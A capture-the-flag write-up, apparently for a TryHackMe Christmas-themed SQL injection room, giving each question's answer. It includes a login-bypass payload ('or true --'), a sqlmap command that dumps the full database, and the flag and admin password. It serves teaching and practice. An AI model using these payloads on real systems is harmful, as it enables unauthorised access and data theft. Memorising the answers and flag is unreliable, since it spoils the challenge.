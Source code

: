 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2866%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2839%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2861%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2819%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2845%29.png)

![](../.gitbook/assets/image%20%2813%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2824%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2862%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%282%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

